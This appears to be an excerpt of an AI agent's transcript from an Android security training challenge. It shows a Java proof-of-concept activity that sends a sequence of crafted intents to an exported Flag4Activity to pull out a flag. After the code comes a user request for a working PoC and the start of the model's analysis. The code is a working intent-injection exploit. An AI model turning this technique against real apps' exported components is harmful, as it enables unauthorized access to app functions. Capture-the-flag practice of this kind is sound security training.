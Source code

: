 --- Tool Call ---
read_file_content({'file_path': 'Android-2/MaliciousFlag4PoC.java'})

--- Tool Observation ---
package com.example.maliciousapp;

import android.app.Activity;
import android.content.ComponentName;
import android.content.Intent;
import android.os.Bundle;
import android.util.Log;
import android.widget.Toast;

public class MaliciousFlag4PoC extends Activity {

    private static final String TAG = "MaliciousFlag4PoC";
    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";
    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Log.d(TAG, "MaliciousFlag4PoC started.");
        Toast.makeText(this, "Sending intents to Flag4Activity...", Toast.LENGTH_LONG).show();

        sendIntent("PREPARE_ACTION");
        sendIntent("BUILD_ACTION");
        sendIntent("GET_FLAG_ACTION");
        sendIntent(null); // Send an empty action to trigger success(this)

        Toast.makeText(this, "Intents sent. Check target app for flag.", Toast.LENGTH_LONG).show();
        finish(); // Close the malicious activity
    }

    private void sendIntent(String action) {
        Intent intent = new Intent();
        intent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));
        if (action != null) {
            intent.setAction(action);
        }
        try {
            startActivity(intent);
            Log.d(TAG, "Sent intent with action: " + (action != null ? action : "null (to trigger success)"));
        } catch (Exception e) {
            Log.e(TAG, "Failed to send intent with action " + action + ": " + e.getMessage());
            Toast.makeText(this, "Error sending intent: " + e.getMessage(), Toast.LENGTH_SHORT).show();
        }
    }
}



==================== TURN 4/50 ====================

--- Request to Model ---
Role: user
Text: My mission is to: This is decompiled code of android app, I want u to analyse the code and solve the Flag4 challenege by providing a working poc to solve the challenge in that activity. Begin your analysis.
----------
Role: model
Text: 🧠 Reactive Reasoning:
1. Observation: The user has provided a project structure that appears to be an Android application, indicated by the presence of `AndroidManifest.xml` and Java files. The goal is to solve "Flag4 challenge" by providing a working PoC.
2. Self-Questioning: What is the project type and technology stack? This is crucial for determining the PoC strategy.
3. Hypothesis: The project is an Android application developed in Java/Kotlin.
